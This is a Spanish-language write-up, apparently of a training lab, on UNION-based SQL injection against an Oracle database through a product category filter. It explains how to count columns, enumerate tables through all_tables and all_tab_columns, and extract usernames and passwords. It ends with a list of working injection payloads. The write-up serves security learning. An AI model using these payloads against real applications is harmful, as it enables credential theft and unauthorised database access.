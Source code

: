 La vulnerabilidad se encuentra en el parámetro de categoría del filtro de productos, y la respuesta de la aplicación muestra los resultados de la consulta, lo que permite visualizar directamente los datos inyectados.

El objetivo es encontrar y consultar una tabla interna que almacena nombres de usuario y contraseñas. El proceso se desarrolla en varias fases:

- Identificar el número de columnas y las que permiten mostrar texto en la respuesta, utilizando un payload simple como prueba.
- Listar todas las tablas disponibles usando la vista ‘**all_tables**‘, propia de Oracle.
- Localizar la tabla de usuarios, observando los resultados devueltos por la consulta inyectada.
- Consultar ‘**all_tab_columns**‘ para descubrir los nombres de las columnas de esa tabla.
- Obtener los valores de usuario y contraseña realizando una consulta directa sobre la tabla objetivo.

Una vez localizada la contraseña del administrador, basta con iniciar sesión para resolver el laboratorio.

**Quédate con esto**: Aunque el sistema sea Oracle, los fundamentos de la inyección SQL siguen siendo aplicables. Lo importante es conocer las vistas internas adecuadas para cada motor de base de datos.

-----

* Primero debemos de buscar el total de columnas existentes que nos muestra la Web
    + '  (para provocar un error en la consultar de Oracle)
    + ' order by 2-- -
    + ' union select 1,2-- -
    + ' union select NULL, NULL-- -
    + ' union select 'test','test2' from dual-- -
    + ' union select NULL,table_name from all_tables-- - (todas las tablas de todas las bases de datos existentes)
    + ' union select NULL,column_name from all_tab_columns where table_name='TABLE'-- - (todas las columnas de la tabla dada)
    + ' union select username,password from TABLE-- - (minar los datos de la tabla y columnas dadas)


